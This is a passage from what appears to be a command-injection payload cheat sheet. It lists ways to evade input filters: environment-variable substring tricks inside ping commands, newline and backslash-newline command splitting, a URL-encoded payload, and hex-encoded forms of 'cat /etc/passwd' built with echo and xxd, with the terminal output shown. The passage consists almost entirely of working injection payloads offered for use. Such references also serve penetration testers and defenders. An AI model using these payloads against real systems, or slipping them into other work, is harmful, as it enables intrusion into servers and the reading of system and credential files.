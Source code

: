   ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```


### Bypass with a line return

Commands can also be run in sequence with newlines

```bash
original_cmd_by_server
ls
```


### Bypass with backslash newline

* Commands can be broken into parts by using backslash followed by a newline
  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```
* URL encoded form would look like this:
  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```


### Bypass characters filter via hex encoding

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```
